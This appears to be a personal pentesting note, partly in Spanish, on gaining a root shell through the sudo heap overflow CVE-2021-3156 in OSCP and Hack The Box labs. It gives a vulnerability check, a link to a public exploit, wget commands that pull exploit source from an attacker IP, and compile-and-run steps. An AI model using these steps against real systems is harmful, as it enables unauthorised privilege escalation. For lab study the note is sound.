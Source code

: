 sud## DESCRIPTION
#### Root shell PoC for CVE-2021-3156 (no bruteforce)

For educational purposes etc.

Tested on Ubuntu 20.04 against sudo 1.8.31

All research credit: **Qualys Research Team** Check out the details on their [blog](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

You can check your version of sudo is vulnerable with: `$ sudoedit -s Y`. If it asks for your password it's most likely vulnerable, if it prints usage information it isn't. You can downgrade to the vulnerable version on Ubuntu 20.04

Winpeas:

![[Pasted image 20230425132616.png]]


#### Mas información
* https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit


## EXPLOITATION

1. Descargamos el exploit: https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit

![[Pasted image 20230425132811.png]]

2. Lo transferimos a la máquina:

```
wget http://192.168.119.166:7777/Makefile
wget http://192.168.119.166:7777/exploit.c
wget http://192.168.119.166:7777/shellcode.c
```

3. Compilamos y ejecutamos:

```
$ make

$ ./exploit
```

![[Pasted image 20230425132834.png]]

## MACHINES

* Hack The Box: 
* OSCP LABS: Relia (.245)
